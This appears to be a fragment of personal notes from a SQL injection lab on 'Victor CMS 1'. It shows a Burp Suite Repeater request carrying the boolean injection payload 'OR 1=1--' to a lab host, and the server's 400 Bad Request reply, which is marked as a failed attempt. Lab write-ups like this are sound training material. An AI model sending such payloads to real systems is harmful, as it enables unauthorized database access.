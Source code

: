 ![Lab - Victor CMS 1](./assets/04_sql_injection_attacks_lab_victor_cms_1.png)

`burpsuite` > `Repeater`

`HTTP Request`:
```http
GET /post.php?post=1111 OR 1=1--📌 HTTP/2
Host: vmdbzf0sxoi7jc9yboehw3vt6.eu-central-6.attackdefensecloudlabs.com
Cookie: PHPSESSID=j0fevhs6826gn9bfa8chjfvci2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```
`HTTP Response`:
```http
HTTP/2 400 Bad Request📌
Content-Type: text/html; charset=iso-8859-1
Date: Tue, 10 Dec 2024 22:37:11 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 301

[...]
```
❌
